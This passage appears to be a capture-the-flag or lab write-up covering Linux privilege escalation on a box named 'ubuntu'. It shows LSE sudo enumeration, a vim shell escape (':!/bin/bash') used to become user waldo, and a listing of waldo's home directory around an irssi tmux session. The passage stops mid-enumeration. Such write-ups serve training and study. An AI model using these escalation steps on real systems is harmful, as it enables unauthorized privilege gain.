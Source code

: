 LSE revealed sudo commands that could be run without a password. For manual enumeration, the command to run would be ```sudo -l```.

```
[!] sud010 Can we list sudo commands without a password?................... yes!
---
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (waldo) NOPASSWD: /usr/bin/vim /etc/apache2/sites-available/000-default.conf
    (ALL) NOPASSWD: /sbin/iptables
```

The user ```waldo``` can run ```vim``` with sudo specifically to edit Apache2's default configuration file.

Despite only allowing Vim for the one file, we can still perform privilege escalation here.

Using the command ```sudo -u waldo /usr/bin/vim /etc/apache2/sites-available/000-default.conf```, we're thrown into the Vim editor.

![image](https://user-images.githubusercontent.com/45502375/197371609-d6d322ec-1813-4d82-ad4d-2b85ed8a57f2.png)

From here, we can execute commands by inputting ```:![CMD]```. Here, I used ```:!/bin/bash``` to exit into a Bash terminal as ```waldo```.

![image](https://user-images.githubusercontent.com/45502375/197371616-2e4b6b7f-7a80-48e5-83e9-84aa8e2ab48e.png)

![image](https://user-images.githubusercontent.com/45502375/197371626-044d3dfd-210f-482f-84fb-6b054c48bcd7.png)

## Step 4 - Privilege Escalation Part 2

Running LSE again showed a running Tmux session labeled ```irssi```, meaning there was probably a client running.

```
[!] sof110 Are there any tmux sessions available?.......................... yes!
---
irssi: 1 windows (created Sat Oct 22 08:03:01 2022) [80x23]
```

Investigating through ```waldo```'s home folder revealed an Irssi client and auto-startup script.

```
waldo@ubuntu:~$ ls -la
ls -la
total 48
drwxr-xr-x 5 waldo waldo 4096 Dec 16  2016 .
drwxr-xr-x 5 root  root  4096 Dec 16  2016 ..
-rw------- 1 waldo waldo    8 Dec 27  2016 .bash_history
-rw-r--r-- 1 waldo waldo  220 Dec 14  2016 .bash_logout
-rw-r--r-- 1 waldo waldo 3771 Dec 14  2016 .bashrc
drwx------ 2 waldo waldo 4096 Dec 14  2016 .cache
drwx------ 2 waldo waldo 4096 Dec 16  2016 .irssi
drwxrwxr-x 2 waldo waldo 4096 Dec 16  2016 .nano
-rw-r--r-- 1 waldo waldo  655 Dec 14  2016 .profile
-rw-rw-r-- 1 waldo waldo   66 Dec 16  2016 .selected_editor
-rw-r--r-- 1 waldo waldo    0 Dec 14  2016 .sudo_as_admin_successful
-rw------- 1 waldo waldo 1348 Dec 16  2016 .viminfo
-rwxrwxr-x 1 waldo waldo  113 Dec 16  2016 irssi.sh
waldo@ubuntu:~$
```
